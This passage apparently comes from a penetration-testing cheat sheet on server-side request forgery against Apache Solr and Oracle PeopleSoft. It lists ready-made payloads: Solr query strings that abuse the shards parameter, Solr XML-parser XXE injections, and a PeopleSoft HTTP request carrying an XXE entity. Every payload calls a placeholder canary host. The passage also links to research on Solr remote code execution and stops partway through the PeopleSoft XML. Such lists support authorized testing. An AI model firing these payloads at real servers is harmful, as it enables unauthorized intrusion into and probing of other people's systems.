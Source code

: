 **SSRF Canary: Shards Parameter**

<blockquote class="twitter-tweet" data-conversation="none" data-theme="dark"><p lang="en" dir="ltr">To add to what shubham is saying - scanning for solr is relatively easy. There is a shards= param which allows you to bounce SSRF to SSRF to verify you are hitting a solr instance blindly.</p>&mdash; Хавиж Наффи 🥕 (@nnwakelam) <a href="https://twitter.com/nnwakelam/status/1349298311853821956?ref_src=twsrc%5Etfw">January 13, 2021</a></blockquote>

Taken from [here](https://github.com/veracode-research/solr-injection).

```bash
/search?q=Apple&shards=http://SSRF_CANARY/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}
/solr/db/select?q=orange&shards=http://SSRF_CANARY/solr/atom&qt=/select?fl=id,name:author&wt=json
/xxx?q=aaa%26shards=http://SSRF_CANARY/solr 
/xxx?q=aaa&shards=http://SSRF_CANARY/solr
```

**SSRF Canary: Solr XXE (2017)**

[Apache Solr 7.0.1 XXE (Packetstorm)](https://packetstormsecurity.com/files/144678/Apache-Solr-7.0.1-XXE-Injection-Code-Execution.html)

```bash
/solr/gettingstarted/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://SSRF_CANARY/xxx"'><a></a>'
/xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://SSRF_CANARY/solr'><a></a>"}
```

**RCE via dataImportHandler**

[Research on RCE via dataImportHandler](https://github.com/veracode-research/solr-injection#3-cve-2019-0193-remote-code-execution-via-dataimporthandler)

<div id="peoplesoft"></div>

## PeopleSoft

**Commonly bound ports: 80,443 (SSL)**

Taken from this research [here](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce).

**SSRF Canary: XXE #1**

```http
POST /PSIGW/HttpListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

<?xml version="1.0"?>
<!DOCTYPE IBRequest [
<!ENTITY x SYSTEM "http://SSRF_CANARY">
]>
<IBRequest>
   <ExternalOperationName>&x;</ExternalOperationName>
   <OperationType/>
   <From><RequestingNode/>
      <Password/>
      <OrigUser/>
      <OrigNode/>
      <OrigProcess/>
      <OrigTimeStamp/>
   </From>
   <To>
      <FinalDestination/>
      <DestinationNode/>
      <SubChannel/>
   </To>
   <ContentSections>
      <ContentSection>
```